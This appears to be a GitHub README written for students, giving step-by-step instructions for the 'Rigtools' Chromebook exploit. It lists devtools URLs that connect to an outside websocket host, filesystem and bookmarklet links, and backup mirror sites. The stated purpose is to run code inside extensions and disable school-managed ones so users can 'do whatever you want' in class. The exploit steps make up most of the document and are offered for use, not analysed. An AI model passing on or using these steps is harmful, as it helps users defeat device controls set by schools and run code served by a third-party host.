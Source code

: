  **THIS ONLY WORKS FOR CHROMEBOOK,NO WINDOWS OR ANYTHING***
 ***THE ULTIMATE RIGTOOLS GUIDE***
**Rigtools** is an exploit that allows users to run code on extensions, disable extensions, and basically do whatever they want with an extension as long as it has the correct permissions.***IT IS PATCHED ON ALL CHROME VERSIONS 133 AND HIGHER*** =-( 😧

### How do you use it?

1. Open this link and just leave it alone. (Note: This will not run code it's just there to fix the second page.)
```md
devtools://devtools/bundled/devtools_app.html
```
2. Open this link and go to Network.

```md
devtools://devtools/bundled/devtools_app.html?experiments=true&ws=rig.kxtz.dev/
```
3. Double-Click the black/grey box:
![image](https://github.com/user-attachments/assets/08996bac-ebc1-4526-973d-ea766731cc9e)
![image](https://github.com/user-attachments/assets/f9ae4b07-d3f3-4318-9d63-404b9142e4f0)

4.Wait for a bit...It should open a page that has a lot of red and purple buttons.

5. Click on the button named "Gforms Locked mode".

6.Behold:RIGTOOLS!!! You can disable extensions that you want. (A reminder,These may stop working after a few weeks,you might have to do it again.)

7. Finally,you can run code like "Hello World" or something like that through the extensions.

8.Go to 
```md
https://devtoolbypass.playcode.io/
```
Click "skip intro" and drag the button.
This is a hyperlink to rigtools.(BWAHAHAHAH)


***MORE IMPORTANT INFO***
-(A reminder,These may stop working after a few weeks,you might have to do it again.)
-If GitHub or DevtoolBypass gets blocked,then save this URL by dragging it into your bookmarks bar or print it...just keep it safe!
```
data:text/html;charset=utf-8,devtools://devtools/bundled/devtools_app.html <p> <dev> devtools://devtools/bundled/devtools_app.html?experiments=true&ws=rig.kxtz.dev/%20%20%20%20%20These%20are%20links%20to%20launch%20the%20unblock3r.%20%3Cp%3E%20%3Cdev%3E%20Use%20these%20links%20to%20get%20a%20HYPERLINK,a%20DIRECT%20link%20to%20RigTools%20devtools://devtools/bundled/devtools_app.html%20%3Cp%3E%20%3Cdev%3E%20filesystem:chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/temporary/index.html%20%3Cp%3E%20%3Cdev%3E%20The%20second%20one:%20filesystem:chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/persistent/rigtools.html
```
-They may make your computer a bit laggy,but nothing much,just some distortion of the mouse or something.
-
-If using a vpn,do not try and test or experiment around with this using "Metasploit" or any "Penetration testing" platforms.
Be careful.That stuff can break your computers.BEWARE OF BROWSERS! 🙂 
If you know what I mean...😏
There is a **real** second version,though.
When you get to the original version,
-Scroll down a bit,until you find a button named "Update Rigtools".Click it.
-After,go to 
```
rigtools.playcode.io
```
and that should work too,as a substitute version.
***If it does not work,drag the "filesystem" url into your bookmarks bar and spam click it!!***
For now,this will do...

And now you can do whatever you want on your computer.Use this wisely,and stay on task in class...At lunch,you could be hangin' out in the library with your friends playing bloxd.io or whatever... =-D 🙂 

***MORE STUFF COMING SOON***
-Follow for more exploits,Exploit-Master12 =-) 





